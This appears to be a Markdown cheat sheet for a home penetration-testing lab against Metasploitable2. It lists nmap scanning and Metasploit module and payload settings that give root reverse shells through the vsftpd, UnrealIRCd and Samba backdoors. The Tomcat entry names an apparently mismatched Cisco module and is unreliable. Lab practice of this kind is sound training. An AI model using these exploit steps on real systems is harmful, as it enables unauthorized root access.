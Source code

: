 ## 🧠 Home Lab Cheat Sheet

### Target: Metasploitable2  
> IP: `192.168.138.130` (your lab — change if needed)

---

### How to Identify Services
```bash
nmap -sV 192.168.138.130
```
Look for open ports + service versions to match known exploits.

**nmap scan:**
![Shell Gained](../screenshots/nmap_scan.png)
---

### Common Metasploit Steps
```bash
use <exploit/module/path>
set RHOST <target IP>
set RPORT <target port>
set LHOST <Kali IP>
set PAYLOAD <payload>     # if needed
run
```

---

### PORT 21 – FTP
- **Service:** vsftpd 2.3.4  
- **Exploit Module:** `exploit/unix/ftp/vsftpd_234_backdoor`  
- **Payload:** None needed (built-in command shell)  
- **Notes:**
  - Opens a root shell backdoor on port 6200
  - Triggered by logging in with a `:)` in the username

---

### PORT 6667 – IRC
- **Service:** UnrealIRCd 3.2.8.1  
- **Exploit Module:** `exploit/unix/irc/unreal_ircd_3281_backdoor`  
- **Payload:** `cmd/unix/reverse`  
- **Options to Set:**
  ```bash
  set RHOST <target IP>
  set RPORT 6667
  set LHOST <Kali IP>
  ```
- **Result:** Reverse shell as `root`  
- **CVE:** [CVE-2010-2075](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-2075)

---

### PORT 445 – Samba
- **Service:** Samba
- **Exploit Module:** `exploit/unix/samba/usermap_script`  
- **Payload:** `cmd/unix/reverse_netcat`  
- **Options to Set:**
  ```bash
  set RHOST <target IP>
  set RPORT 445
  set LHOST <Kali IP>
  ```
- **Result:** Reverse shell as `root`  

---

### PORT 8180 – Apache Tomcat
- **Service:** Apache Tomcat
- **Exploit Module:** `exploit/unix/http/cisco_prime_inf_rce`  
- **Payload:** `linux/x64/meterpreter/reverse_tcp`  
- **Options to Set:**
  ```bash
  set RHOST <target IP>
  set RPORT 8180
  set LHOST <Kali IP>
  ```
- **Result:** Exploit completed but no session created, requires **manual placement of JSP payload** in `/opt/CSCOlumos` 

---

### Tips
- Always `nmap` first to find the right service version.
- Use `search <service/version>` in Metasploit to find modules.
- If it says “no payload selected,” choose one based on OS.
- If you get "no session created," check:
  - LHOST is correct
  - Firewall is off
  - Port actually open
